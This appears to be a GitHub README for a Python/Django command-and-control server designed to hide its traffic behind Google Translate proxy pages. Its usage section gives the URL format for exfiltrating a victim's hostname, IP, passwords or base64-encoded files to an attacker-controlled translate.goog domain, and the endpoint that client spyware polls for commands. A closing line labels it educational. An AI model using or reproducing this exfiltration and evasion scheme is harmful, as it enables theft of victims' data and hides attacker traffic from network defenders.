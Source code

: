 # EFREI-C2-Example
A simple C2 meant to be used behind Google Translate Webpages as a proxy for data evasion.

## Requirements
- Python 3.x
- Django (https://www.djangoproject.com/download/)

## Setup
- Create an admin user: ``python manage.py createsuperuser --username <username>``
- Log on the admin dashboard at ``127.0.0.1:8000/admin``

## Usage
### Exfiltration
- Data are collected directly from the URL
- simply send data to the base URL: ``https://your-domain.translate.goog/<hostname>/<ip>/<data_type>/<?hash_file>/<data>/``
  - ``hostname`` is your victim hostname.
  - ``ip`` is your victim ip address.
  - ``data_type`` is the keyword you want to filter data. It can be for example a password type.
  - ``hash_file`` is a flag to know if the exfiltrated data is a file or a string. You must send the hash of the file you want to upload to recreate the file. It allows the admin dashboard to know if it has to decode the received data or not. **(OPTIONAL)**
  - ``data`` is the content you want to exfiltrate. If it's a file, it can be encoded in base64 and decoded automatically on the admin dashboard. If it's a base64 data, you must split it into multiple strings otherwise Google Translate will limit you.

### Sending command
- Fetch the following link from your client/spyware: ``https://your-domain.translate.goog/c/<hostname>/<ip>/``

You can expand the size of the data by editing ``collector\models.py`` and edit the ``max_length=<your value>`` for the ``data_content`` field.
# FOR EDUCATIONAL PURPOSE ONLY
